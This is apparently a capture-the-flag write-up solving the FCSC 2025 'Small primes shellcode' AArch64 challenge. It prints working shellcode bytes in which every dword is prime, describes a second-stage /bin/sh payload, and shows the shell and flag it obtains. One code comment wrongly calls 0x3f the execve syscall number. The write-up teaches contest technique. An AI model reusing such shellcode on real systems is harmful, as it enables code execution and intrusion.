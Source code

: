 ```yaml
---
author: micronoyau
layout: post
date: 2025-04-27 22:00:00 +0200
tags: pwn fcsc shellcode
title: "Small primes shellcode"
excerpt_separator: <!--more-->
---
```


This challenge is the fifth most solved pwn challenge at the 2025 edition of the FCSC. The only provided resources are an address and port and the copy of the binary to exploit.

## Playing with the service

```
➜  05-small-primes-shellcode nc chal.fcsc.fr 2101
hello, world
Instruction #0 [opcode = 0x6c6c6568] is not prime.
^C
➜  05-small-primes-shellcode nc chal.fcsc.fr 2101
abcd
Instruction #0 [opcode = 0x64636261] is not prime.
^C
```

It seems that the program expects the first dword to be a prime number.

## Binary analysis

First, let's notice than as opposed to the previous challenges, the provided binary is for target `aarch64`.

```
➜  05-small-primes-shellcode readelf -h small-primes-shellcode 
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              DYN (Position-Independent Executable file)
  Machine:                           AArch64
  Version:                           0x1
  Entry point address:               0x800
  Start of program headers:          64 (bytes into file)
  Start of section headers:          68872 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         9
  Size of section headers:           64 (bytes)
  Number of section headers:         29
  Section header string table index: 28
```

The binary has a single, small, main function. First, it allocates `0x400` bytes of memory with `RWX` protections.

![](/assets/fcsc/2025/pwn/small-primes-shellcode/00-block-0.png)

Then, it reads `0x400` bytes from user input to the allocated memory area.

![](/assets/fcsc/2025/pwn/small-primes-shellcode/01-block-1.png)

Finally, the program loops over every dword (4 bytes) of the input padded with zeros, and aborts if one of these dwords is not prime. Else, all registers are cleared and the given user input is executed.

![](/assets/fcsc/2025/pwn/small-primes-shellcode/02-block-2.png)

### tl;dr

We need to provide an ARM shellcode where every dword is a prime number.

## Solving

To solve this challenge, I wrote a small Rust program to check if the shellcodes I built were respecting this condition. As for the `bigorneau` challenge, my strategy was split in two stages: a first (restricted) stage shellcode to read a second stage shellcode (most likely, as always, `execve("/bin/sh", NULL, NULL)` with NOP padding).

### First stage shellcode

With the help of this little tool, I proceeded to fiddle around to find the optimal sequence of instructions. The first stage needs to read from stdin to the `mmap`ed region to overwrite the currently executed instructions.

Simply put, this first-stage shellcode should look something like
```
mov x8, 0x3f            // 0x3f = execve syscall number for aarch64-linux
mov x0, 0               // stdin
ldr x1, [sp, 0x20]      // (mmaped region address is at [sp + 0x30 - 0x10])
mov x2, <big value>     // Number of bytes to read
svc <dontcare>          // Usually svc 0, but the immediate value is usually ignored
```

However, this shellcode is absolutely not meeting the requirements. Running the tool yields

```
Shellcode = [e8, 07, 80, d2, 00, 00, 80, d2, e1, 13, 40, f9, 02, 40, 80, d2, 01, 00, 00, d4] = \xe8\x07\x80\xd2\x00\x00\x80\xd2\xe1\x13\x40\xf9\x02\x40\x80\xd2\x01\x00\x00\xd4

Instructions: 
d28007e8 - [e8, 07, 80, d2] - 0x1000: mov x8, #0x3f - NOT PRIME
d2800000 - [00, 00, 80, d2] - 0x1004: mov x0, #0 - NOT PRIME
f94013e1 - [e1, 13, 40, f9] - 0x1008: ldr x1, [sp, #0x20] - NOT PRIME
d2804002 - [02, 40, 80, d2] - 0x100c: mov x2, #0x200 - NOT PRIME
d4000001 - [01, 00, 00, d4] - 0x1010: svc #0 - NOT PRIME
```

As can be seen, instructions like `mov x2, <something>` will never work because ARM instructions are 4-byte aligned and the target registers is stored in the least significant bits, which means the instruction will always be even.

To bypass this limitation, I made heavy use of the `ldp` and  `stp` ARM instructions. These instructions allow to load/store pairs of registers. By never setting the first of this pair of registers to an even one, we can achieve our goal.

After a few random tries, I finally came up with the following shellcode:

```
// Nasty trick to do a "mov x8, 0x3f"
mov x5, 0x3f
stp x5, x2, [sp]
ldp x11, x8, [sp, -0x8]

// Nasty trick to do a "ldr x1, [sp, 0x20]" (buf is at [sp + 0x30 - 0x10])
ldr x13, [sp, 0x20]
stp x13, x6, [sp]
ldp x1, x9, [sp]

// Nasty trick to do a "mov x2, 0x202"
mov x3, 0x202
stp x3, x2, [sp]
ldp x23, x2, [sp, -0x8]

// Nasty trick to do a "mov x0, xzr"
stp xzr, x10, [sp]
ldp x7, x0, [sp, -0x8]

// Put 0x13 to have a prime number (immediate is ignored)
svc 0x13
```

Running it with the tool yields
```
Shellcode = [e5, 07, 80, d2, e5, 0b, 00, a9, eb, a3, 7f, a9, ed, 13, 40, f9, ed, 1b, 00, a9, e1, 27, 40, a9, 43, 40, 80, d2, e3, 0b, 00, a9, f7, 8b, 7f, a9, ff, 2b, 00, a9, e7, 83, 7f, a9, 61, 02, 00, d4] = \xe5\x07\x80\xd2\xe5\x0b\x00\xa9\xeb\xa3\x7f\xa9\xed\x13\x40\xf9\xed\x1b\x00\xa9\xe1\x27\x40\xa9\x43\x40\x80\xd2\xe3\x0b\x00\xa9\xf7\x8b\x7f\xa9\xff\x2b\x00\xa9\xe7\x83\x7f\xa9\x61\x02\x00\xd4

Instructions: 
d28007e5 - [e5, 07, 80, d2] - 0x1000: mov x5, #0x3f - PRIME
a9000be5 - [e5, 0b, 00, a9] - 0x1004: stp x5, x2, [sp] - PRIME
a97fa3eb - [eb, a3, 7f, a9] - 0x1008: ldp x11, x8, [sp, #-8] - PRIME
f94013ed - [ed, 13, 40, f9] - 0x100c: ldr x13, [sp, #0x20] - PRIME
a9001bed - [ed, 1b, 00, a9] - 0x1010: stp x13, x6, [sp] - PRIME
a94027e1 - [e1, 27, 40, a9] - 0x1014: ldp x1, x9, [sp] - PRIME
d2804043 - [43, 40, 80, d2] - 0x1018: mov x3, #0x202 - PRIME
a9000be3 - [e3, 0b, 00, a9] - 0x101c: stp x3, x2, [sp] - PRIME
a97f8bf7 - [f7, 8b, 7f, a9] - 0x1020: ldp x23, x2, [sp, #-8] - PRIME
a9002bff - [ff, 2b, 00, a9] - 0x1024: stp xzr, x10, [sp] - PRIME
a97f83e7 - [e7, 83, 7f, a9] - 0x1028: ldp x7, x0, [sp, #-8] - PRIME
d4000261 - [61, 02, 00, d4] - 0x102c: svc #0x13 - PRIME
```

## Result

Let's run the orchestrating script

```
➜  05-small-primes-shellcode python expl.py 
[+] Opening connection to chall.fcsc.fr on port 2101: Done
[*] Switching to interactive mode
$ ls
flag.txt
small-primes-shellcode
$ cat flag.txt
FCSC{90d9b12e9ac63770408a90f8cec117b317356f5b40b238cffeeccc9e41eb88dd}
```

For full code, please visit https://github.com/micronoyau/FCSC-2025/tree/master
